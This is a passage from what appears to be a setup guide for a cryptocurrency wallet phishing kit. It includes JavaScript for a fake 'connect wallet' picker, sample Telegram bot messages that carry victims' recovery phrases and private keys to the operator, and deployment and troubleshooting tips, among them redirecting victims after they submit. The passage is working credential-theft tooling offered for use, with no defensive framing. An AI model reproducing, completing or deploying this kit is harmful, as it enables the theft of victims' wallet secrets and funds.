    { name: "Ronin Wallet",               wc: true,  bg: "#1B6FE4",           icon: `` },
    { name: "Safe",                       wc: true,  bg: "#12FF80",           icon: `` },
    { name: "Bybit Wallet",               wc: false, bg: "#111",              icon: `` },
    { name: "Thor Wallet",                wc: false, bg: "#0A0E27",           icon: `` },
    { name: "Kraken Wallet",              wc: false, bg: "#5741D9",           icon: `` },
    { name: "Backpack",                   wc: false, bg: "#E33E3F",           icon: `` },
    { name: "Keplr",                      wc: false, bg: "#fff", border: "1px solid #e8e8e8", icon: `` },
    { name: "Onchain Wallet",             wc: false, bg: "#0052FF",           icon: `` },
    { name: "Zerion",                     wc: false, bg: "#2962EF",           icon: `` },
    { name: "Rainbow",                    wc: false, bg: "#fff", border: "1px solid #e8e8e8", icon: `` },
    { name: "Tangem Wallet",              wc: false, bg: "#F0F0F0",           icon: `` },
    { name: "BlackFort Wallet",           wc: false, bg: "#0A1628",           icon: `` },
    { name: "Fireblocks",                 wc: true,  bg: "#1B3CE8",           icon: `` },
    { name: "Other Wallets",              wc: false, bg: "#1a1f33",           icon: `<svg width="40" height="40" viewBox="0 0 40 40" fill="none"><circle cx="20" cy="20" r="3" fill="#5B6EF5"/><circle cx="10" cy="20" r="3" fill="#5B6EF5"/><circle cx="30" cy="20" r="3" fill="#5B6EF5"/></svg>` },
  ];

  function wmTruncate(n) { return n.length > 13 ? n.substring(0, 12) + '...' : n; }

  function wmRenderGrid(list) {
    const grid = document.getElementById('wmWalletsGrid');
    if (!grid) return;
    grid.innerHTML = list.map(w => `
      <div class="wm-grid-item" onclick="showConnectingMessage('${w.name.replace(/'/g, "\\'")}'); wmShowMain();">
        <div class="wm-grid-icon" style="background:${w.bg};${w.border ? 'border:' + w.border + ';' : ''}">
          ${w.icon}
        </div>
        <div class="wm-grid-name-row">
          <span class="wm-grid-name">${wmTruncate(w.name)}</span>
          ${w.wc ? `<span class="wm-wc-icon"><svg width="8" height="8" viewBox="0 0 10 10" fill="none"><path d="M1.5 3.5C3 2 7 2 8.5 3.5" stroke="#fff" stroke-width="1.5" stroke-linecap="round"/><path d="M3 5C4 4 6 4 7 5" stroke="#fff" stroke-width="1.5" stroke-linecap="round"/><circle cx="5" cy="7" r="1" fill="#fff"/></svg></span>` : ''}
        </div>
      </div>
    `).join('');
  }

  function wmFilterWallets(q) {
    const filtered = q ? wmAllWallets.filter(w => w.name.toLowerCase().includes(q.toLowerCase())) : wmAllWallets;
    wmRenderGrid(filtered);
  }

  function wmShowAllWallets() {
    document.getElementById('wm-mainView').classList.add('hidden');
    document.getElementById('wm-allView').classList.add('active');
    wmRenderGrid(wmAllWallets);
  }

  function wmShowMain() {
    document.getElementById('wm-allView').classList.remove('active');
    document.getElementById('wm-mainView').classList.remove('hidden');
    const s = document.getElementById('wmWalletSearch');
    if (s) s.value = '';
  }

</script>
```

---

## 4) What the Telegram Message Looks Like

**Phrase entry:**
```
🔐 New Phrase Entry

💼 Wallet: Trust Wallet
📝 Type: Recovery Phrase

word1 word2 word3 word4 word5 word6 word7 word8 word9 word10 word11 word12
```

**Private key entry:**
```
🔐 New Private Key Entry

💼 Wallet: MetaMask
🔑 Type: Private Key

a1b2c3d4e5f6...
```

---

## 5) Important Notes

- **No monthly limits** — Telegram Bot API is completely free
- **Instant delivery** — messages arrive in seconds
- **Group chat ID starts with `-`** — never omit the minus sign
- **Bot must be admin** in the group — otherwise messages will fail silently
- **Redirect** — update `https://yoursite.com/index.html` to your actual page after submission
- **Assets folder** — make sure your `./assets/` folder with all wallet images is in the same directory as your `index.html`

---

## 6) Troubleshooting

- **No messages arriving** — double check bot token and group chat ID, including the `-`
- **"Unauthorized" error in console** — bot token is wrong
- **"Forbidden" error in console** — bot is not an admin in the group
- **Messages arrive but no wallet name** — make sure the user clicked a wallet before the form appeared
- **Wallet icons not showing** — make sure the `./assets/` folder is in the right place
